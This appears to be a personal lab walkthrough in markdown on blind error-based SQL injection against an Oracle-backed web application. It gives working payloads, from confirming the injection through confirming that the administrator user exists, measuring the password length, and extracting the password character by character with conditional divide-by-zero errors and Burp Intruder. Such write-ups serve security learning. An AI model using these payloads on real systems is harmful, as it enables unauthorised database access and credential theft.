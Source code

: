 Blind sqli error based  

Prove that parameter is vulnerable
Single quote we get an error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bacf7b5b-2757-4758-96fc-29d8e28803bf)


Double quote the query return as expected 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7bab4305-2a92-4043-b2a0-934d01fd9fee)





Adding concatenation character
```
Cookieid' || (select '') || '
```
Looks like this isnt a mysql but a oracle db 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9ea021a0-67c8-4088-937d-b0d95e73b3f6)





Adding dual since it might be oracle
```
Cookieid' || (select '' from dual) ||  '
```
No error so this is a oracle db and vulnerable to sequel injection
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e477ab26-f60c-4278-8414-fdd4ddbc3a38)





Output table that doesn't exist
```
' || (select '' from dualasfsf) || '
```
We get an error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fcec2cd6-4aeb-4c79-98b3-9036e45da495)




Confirm that users table exist in database
```
' || (select '' from user) || '
```
Error since the '' sql entry will select more than one entry  or a empty entry which might break our query  
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0fb1389c-da56-41b9-8f18-94ce06e0b0fc)


Fix by adding rownum =1 
Which will make sure we only get 1 entry 
We don’t get an error so user tables exist
```
'  || (select '' from users where rownum=1) || '
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4e178806-7399-4dbf-bbe1-aea517ba1d42)


Confirm the administrator user exists in the users databases
Difficult to determine if this is a valid user or not so you can't tell if user exist in the database. It will not generate an error if there isnt a user in that table 
```
' || (select '' from users where username='administrator') || '
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/22a6ce95-e2be-41cf-bb99-274c7b1c459e)


We have to use the case which is if else clauses
We should get a 200 response
```
' || (select CASE WHEN (1=0) THEN TO_CHAR (1/0) ELSE '' END from dual)  || '
```

We should get an error
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' end from dual)  || '
```

Order of execution the from clause is evaluated first before the select clause
Error will indicate the username exist
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' end from users where username='administrator')  || '
```

Error response username exist
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/847d4c18-8bc7-414d-9cfe-48fa74053fa2)




Trying with username that doesn't exist will get you a 200 response cause it won't run the to_char which will generate a 200 response 
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' end from users where username='viet')  || '
```

Determine length of password
Will error cause the password IS greater than 1 
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' end from users where username='administrator' and length(password)>1)  || '
```

Will do a 200 response cause the password is not greater than 50
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' end from users where username='administrator' and length(password)>50)  || '
```

Put on intruder and payload number
Exactly 20 characters since that when it stopped and gave us an error 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5bf01a7c-2b0d-4e65-b6ab-e5c5e483baf5)


Output password 
Use cluster bombs
```
' || (select CASE WHEN (1=1) THEN TO_CHAR (1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1) = 'a')  || '
```
Error status 500 will be our password 
We got password
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/97abf4bb-c216-4c06-a08d-1893c3e9ce8e)


